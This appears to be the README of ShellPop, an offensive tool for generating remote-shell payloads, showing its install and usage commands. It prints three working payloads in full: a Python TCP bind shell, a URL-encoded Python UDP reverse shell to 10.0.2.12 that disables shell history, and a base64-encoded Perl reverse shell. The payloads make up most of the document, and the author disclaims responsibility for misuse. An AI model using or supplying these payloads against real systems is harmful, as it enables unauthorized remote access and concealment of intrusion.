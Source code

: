 # ShellPop
## Pop shells like a master

## Installation
```bash
root@pc# ./install.sh
```

## List available code for shells
```bash
user@pc$ shellpop --list
```
![Image1](img/photo3.JPG)


## Generate code for RCE vulnerabilities

### Generate a Python TCP bind shell, at port 3333.
```bash
user@pc$ shellpop --number 1 --bind --port 3333

python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',3333));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

### Generate a Python UDP reverse shell, at host 10.0.2.12 and port 1337, urlencoded.
```bash
user@pc$ shellpop --number 2 --reverse --host 10.0.2.12 --port 1337 --urlencode

python%20-c%20%22import%20os%3B%20import%20pty%3B%20import%20socket%3B%20lhost%20%3D%20%2710.0.2.12%27%3B%20lport%20%3D%201337%3B%20s%20%3D%20socket.socket%28socket.AF_INET%2C%20socket.SOCK_DGRAM%29%3B%20s.connect%28%28lhost%2C%20lport%29%29%3B%20os.dup2%28s.fileno%28%29%2C%200%29%3B%20os.dup2%28s.fileno%28%29%2C%201%29%3B%20os.dup2%28s.fileno%28%29%2C%202%29%3B%20os.putenv%28%27HISTFILE%27%2C%20%27/dev/null%27%29%3B%20pty.spawn%28%27/bin/bash%27%29%3B%20s.close%28%29%3B%22%20
```

### Generate a Perl TCP reverse shell, at host 10.0.2.12 and port 3311, base64 and urlencoded.
```bash
user@pc$ shellpop --number 5 --reverse --host 10.0.2.12 --port 3311 --base64 --urlencode

cGVybCAtZSAidXNlIFNvY2tldDtcJGk9JzEwLjAuMi4xMic7XCRwPTMzMTE7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgndGNwJykpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbihcJHAsaW5ldF9hdG9uKFwkaSkpKSl7b3BlbihTVERJTiwnPiZTJyk7b3BlbihTVERPVVQsJz4mUycpO29wZW4oU1RERVJSLCc%2BJlMnKTtleGVjKCcvYmluL3NoIC1pJyk7fTsiIA%3D%3D
```

## More examples
![Image2](img/photo1.jpg)

## Credits

This code is 100% authored by Andre Marques (@zc00l) and it is made open to public the moment
it was released in his github. Any misuse of this code does not makes the author responsible
for the damage it could cause.

If you want to add more commands or improve my program, feel free to send me a pull request.
